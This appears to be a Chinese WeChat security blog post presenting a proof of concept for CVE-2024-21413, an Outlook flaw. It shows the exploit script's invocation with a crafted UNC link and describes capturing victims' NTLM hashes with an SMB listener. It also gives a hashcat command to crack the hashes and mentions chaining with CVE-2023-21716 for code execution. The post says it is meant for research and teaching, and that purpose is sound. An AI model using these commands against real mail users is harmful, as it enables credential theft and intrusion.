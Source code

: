 #  CVE-2024-21413：Microsoft Outlook远程代码执行漏洞   
noobsec  安全小白团   2024-03-13 08:31  
  
forever young  
  
  
  
不论昨天如何，都希望新的一天里，我们大家都能成为更好的人，也希望我们都是走向幸福的那些人  
  
  
01  
  
背景  
  
安全小白团  
  
  
当与 CVE-2023-21716 组合时，微软 Outlook 泄露凭据和远程代码执行漏洞。Outlook 应该警告您打开外部链接时的风险，但实际情况并非如此！  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaQZ6ecKS6cz3NWRTBtHqq6wvF9FGNhcPt6T9icVHXbiaMjoSia4RfJvCmgCIwYJWbx8wicaGQF3NfTpwA/640?wx_fmt=png&from=appmsg "")  
  
  
使用方法：   
  
```
./cve-2024-21413.sh mx.fqdn port sender recipient url
```  
  
  
示例：  
   
  
  
```
./cve-2024-21413.sh mail.mydomain.com 25 me@home.com to@other.com "\xx.xx.xx.xx\test\duy31.txt"
```  
  
  
注意事项：  
chmod +x cve-2024-21413.sh  
  
  
需要合法的发件人 IP 和电子邮件发送者（以通过 SPF、DKIM、DMARC）  
  
  
首先运行一个 smb 监听器，如下所示  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaQZ6ecKS6cz3NWRTBtHqq6wpTRxlxic6WUdZiaFiazbZFNshsxhaAMou7XfCGicXKz7odibClyFrExmBCQ/640?wx_fmt=png&from=appmsg "")  
  
  
运行 PoC  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaQZ6ecKS6cz3NWRTBtHqq6wElmribx0qFSwee81XgxAcrBicGGlRoVvmgod8LykTRoozuaZsbb0zmEA/640?wx_fmt=png&from=appmsg "")  
  
  
然后等待电子邮件，在预览窗口中单击链接  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaQZ6ecKS6cz3NWRTBtHqq6wRxRe1TicPeiaNNfLBgj9IFr45nx2YTHRBhDuiaIVPx4oUcSiarLmKgHygQ/640?wx_fmt=png&from=appmsg "")  
  
  
接下来，您应该会获取到单击链接的人的登录名和哈希（在受影响的 Outlook 版本上没有警告提示）  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaQZ6ecKS6cz3NWRTBtHqq6wMnDs1Y6lOibHb9zSyLicVmZiasBfr89VjEhE7h3arEGmR6xnHsMyfib82w/640?wx_fmt=png&from=appmsg "")  
  
  
您可以尝试使用 hashcat 破解密码。只需将所有带有登录名的行复制到一个文件中，并使用模块 5600 运行 hashcat。  
  
```
hashcat -a 0 -m 5600 hash.txt rockyou.txt -o cracked.txt -O
```  
  
  
您可以将此 漏洞 与 CVE-2023-21716 组合利用，以获得远程代码执行漏洞！  
  
  
  
02  
  
工具下载  
  
安全小白团  
  
  
**点击关注下方名片****进入公众号**  
  
**回复关键字【**  
**240313**  
**】获取****下载链接**  
  
  
  
  
****  
  
03  
  
免责&版权声明  
  
安全小白团  
  
安全小白团是帮助用户了解信息安全技术、安全漏洞相关信息的微信公众号。安全小白团提供的程序(方法)可能带有攻击性，仅供安全研究与教学之用，用户将其信息做其他用途，由用户承担全部法律及连带责任，安全小白团不承担任何法律及连带责任。  
欢迎大家转载，  
转载请注明出处。  
如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
